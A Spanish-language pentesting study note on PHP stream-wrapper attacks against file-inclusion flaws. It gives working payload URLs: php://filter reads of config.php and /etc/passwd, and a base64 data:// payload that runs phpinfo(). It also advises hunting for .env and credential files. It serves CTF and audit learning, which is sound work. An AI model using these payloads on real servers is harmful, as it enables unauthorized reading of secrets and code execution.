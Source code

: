 ```yaml
---
Tema: "[[apuntes/Wiki/wiki]]"
---
```

# 🔗 Técnica Wrapper en PHP

---

## 📝 Introducción

### ¿Qué es la técnica Wrapper en PHP?

La **técnica Wrapper en PHP** consiste en aprovechar los "wrappers" o manejadores de flujos especiales que PHP ofrece para manipular archivos, recursos y datos de formas no convencionales. Es especialmente útil en escenarios de **File Inclusion** (inclusión de archivos) y puede permitir la **lectura, manipulación o exfiltración de archivos** en aplicaciones vulnerables.

### ¿Para qué sirve?

- **Leer archivos fuente** (incluso si el servidor solo ejecuta el código)
- **Bypassear restricciones** de inclusión de archivos
- **Explotar vulnerabilidades LFI/RFI** (Local/Remote File Inclusion)
- **Obtener información sensible** (credenciales, rutas, código fuente)

### Contextos de uso

- Pentesting de aplicaciones web PHP
- CTFs y laboratorios de hacking
- Auditoría de seguridad en servidores web

---

## 🛠️ Guía Práctica Paso a Paso

### 1. Identificar un parámetro vulnerable

Busca URLs como:

```
http://<ip_victima>/index.php?page=about.php
```

> [!info] Indicio de vulnerabilidad
> Si el parámetro `page` se utiliza para incluir archivos, podrías explotar wrappers de PHP.

### 2. Usar un wrapper para obtener el código fuente

El wrapper más común es **php://filter**. Permite aplicar filtros a la lectura de archivos.

#### Sintaxis básica

```
php://filter/convert.base64-encode/resource=archivo
```

#### Ejemplo real

```
http://<ip_victima>/index.php?page=php://filter/convert.base64-encode/resource=about.php
```

Esto devolverá el contenido de `about.php` codificado en base64 en vez de ejecutarlo.

### 3. Decodificar el resultado

Copia el contenido base64 obtenido y decodifícalo en tu terminal:

```bash
echo "PD9waHAgZWNobyAiSG9sYSBXb3JsZCI7ID8+" | base64 -d
```

> [!example] Salida esperada
> ```
> <?php echo "Hola World"; ?>
> ```

---

## ⚙️ Parámetros y Wrappers Comunes

| Wrapper | Descripción | Ejemplo de uso |
|---------|-------------|----------------|
| `php://filter` | Aplica filtros a la lectura de archivos | `php://filter/convert.base64-encode/resource=about.php` |
| `php://input` | Accede al cuerpo de la petición HTTP | `php://input` |
| `php://memory` | Acceso a un stream en memoria | `php://memory` |
| `php://temp` | Stream temporal en disco/memoria | `php://temp` |
| `data://` | Permite incluir datos inline (RFI) | `data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==` |

> [!tip] El más usado en hacking es **php://filter** para leer código fuente.

---

## 💻 Ejemplos Prácticos

### Ejemplo 1: LFI con php://filter

```bash
# URL vulnerable
http://victima.com/index.php?page=php://filter/convert.base64-encode/resource=config.php

# Decodificar el resultado
echo "<contenido_base64>" | base64 -d
```

### Ejemplo 2: LFI con data://

```bash
# Incluir código PHP directamente (si allow_url_include=On)
http://victima.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
```

### Ejemplo 3: Exfiltración de archivos sensibles

```bash
# Leer /etc/passwd codificado en base64
http://victima.com/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

---

## 🛡️ Tips y Buenas Prácticas

> [!tip] Consejos para pentesters
> - **Prueba siempre** con `php://filter/convert.base64-encode/resource=...` en parámetros de inclusión.
> - **Busca archivos sensibles**: `config.php`, `.env`, `database.php`, `/etc/passwd`.
> - **Automatiza la decodificación** con scripts bash o Python.
> - **Verifica si allow_url_include está activo** para probar wrappers como `data://` o `http://`.

> [!warning] Errores comunes
> - El wrapper puede estar deshabilitado por configuración (`allow_url_include=Off`).
> - Algunos servidores filtran la cadena `php://` o `filter`.
> - El archivo puede no ser legible por permisos.

---

## 📊 Tabla Comparativa de Wrappers

| Wrapper | ¿Permite leer archivos? | ¿Permite ejecutar código? | ¿Común en CTFs? |
|---------|-------------------------|--------------------------|-----------------|
| `php://filter` | ✅ | ❌ | ⭐⭐⭐⭐⭐ |
| `php://input` | ❌ | ✅ (en POST) | ⭐⭐⭐ |
| `data://` | ✅ | ✅ (si allow_url_include=On) | ⭐⭐⭐⭐ |
| `file://` | ✅ | ❌ | ⭐⭐⭐ |
| `zip://` | ✅ (archivos comprimidos) | ❌ | ⭐⭐ |

---

## 🔍 Diagrama de Flujo: Wrapper Attack

```mermaid
flowchart TD
    A[Identificar parámetro vulnerable] --> B[Probar wrapper php://filter]
    B --> C{¿Devuelve base64?}
    C -- Sí --> D[Decodificar y analizar código fuente]
    C -- No --> E[Probar otros wrappers o técnicas]
    D --> F[Buscar credenciales, rutas, vulnerabilidades]
    E --> G[Escalar ataque o buscar otro vector]
```

---

## 🧠 Resumen

- **Técnica wrapper**: Permite leer archivos fuente y exfiltrar información usando flujos especiales de PHP.
- **Ideal para**: LFI, RFI, análisis de código fuente, CTFs.
- **Clave**: Probar siempre en parámetros de inclusión de archivos.

---

> [!success] ¡Recuerda!
> La técnica wrapper es una de las más poderosas en pentesting web PHP. Siempre que veas un parámetro que incluye archivos, ¡prueba los wrappers!
